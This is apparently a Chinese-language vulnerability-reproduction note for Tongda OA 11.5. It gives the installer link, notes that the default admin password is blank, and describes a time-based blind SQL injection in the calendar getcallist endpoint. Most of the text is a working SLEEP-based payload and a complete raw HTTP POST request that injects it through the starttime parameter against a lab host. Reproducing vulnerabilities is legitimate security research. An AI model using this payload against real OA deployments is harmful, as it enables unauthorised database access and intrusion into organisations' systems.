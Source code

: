 ```yaml
---
categories:
    - 漏洞复现
tags:
    - rce
    - sql注入
---
```

## 通达oa
### 环境下载

version: 11.5
```
https://cdndown.tongda2000.com/oa/2019/TDOA11.5.exe
```
安装完成后可以是用admin账户测试  
admin密码为空

### Calendar.php sql注入

需要一个普通用户
payload：
```
' AND (SELECT 2910 FROM (SELECT(SLEEP(5)))Mmfa) AND 'Okjc'='Okjc
```
请求包：
```
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
Host: 172.16.70.121
Content-Length: 171
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Origin: http://172.16.70.121
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.70.121/general/appbuilder/web/calendar/calendarlist/getcallist
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=aa9bkoinhtbrer8n8m3v86qka1; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=4b0a2547
Connection: close

starttime=123' AND (SELECT 2910 FROM (SELECT(SLEEP(5)))Mmfa) AND 'Okjc'='Okjc&endtime=1598918400&view=month&condition=1&endtime=1598918400&view=month&condition=1
```